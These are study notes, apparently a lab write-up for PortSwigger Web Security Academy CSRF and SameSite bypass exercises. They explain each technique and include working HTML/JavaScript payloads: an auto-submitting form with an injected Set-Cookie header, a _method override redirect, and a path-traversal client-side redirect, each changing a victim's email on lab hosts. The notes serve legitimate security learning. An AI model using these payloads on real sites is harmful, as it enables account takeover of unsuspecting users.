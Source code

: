 # CSRF

## Practitioner
- CSRF where token validation depends on request method
    - Notice that CSRF validation does not exist for GET requests. Use the exploit server to stage a RCE which automatically triggers a GET request to the /change-email endpoint and submits on page load.
- CSRF where token validation depends on token being present
    - Similar exploit, but it's a POST request and simply does not include the CSRF token.
- CSRF where the token is not tied to the user session
    - Similar–– craft a malicious form using the unused CSRF token from another user to trick the server.
- CSRF where token is tied to non-session cookie
- CSRF where token is duplicated in cookie
    - Since the server merely checks if the csrf token matches the cookie, we stage an exploit to update the search query parameter sink to set a fake crsf cookie, and set the csrf token to the same fake value.
    ```
    <form action="https://0ae800630314cfa683893c200074004f.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="evil@hacker.net" />
    <input type="hidden" name="csrf" value="fake" />
    </form>
    <img src="https://0ae800630314cfa683893c200074004f.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None" onerror="document.forms[0].submit();" />
    ```
- Same site lax bypass via method override
    - The samesite attribute defaults to Lax, which means the cookie will be sent in cross-site GET requests. Craft a payload that navigates to the change-email endpoint and uses the _method query parameter to override the HTTP request method.
    ```
    <script>
    document.location = "https://0ac3000203ca9b4add16983800c00022.web-security-academy.net/my-account/change-email?email=pwnedo@web-security-academy.net&_method=POST";
    </script>
    ```

- Samesite strict bypass via client-side redirect
After posting a comment, you are briefly redirect to a page /post/comment/confirmation?postId=7. The redirect is handled client-side by the javascript file /resources/js/commentConfirmationRedirect.js:
```
redirectOnConfirmation = (blogPath) => {
    setTimeout(() => {
        const url = new URL(window.location);
        const postId = url.searchParams.get("postId");
        window.location = blogPath + '/' + postId;
    }, 3000);
}
```
The postId is directly used to construct the redirection path, which canm be exploited with path traversal. We exploit this redirect path traversal to access the strict session cookie to change the email.
```
<script>
    document.location = "https://0afe00bd04a2155a81a117a3004f0014.web-security-academy.net/post/comment/confirmation?postId=../../my-account/change-email/?email=evil%40hacker.net%26submit=1"
</script>
```

[Cross-site websocket hijacking (CSWSH)](https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking)
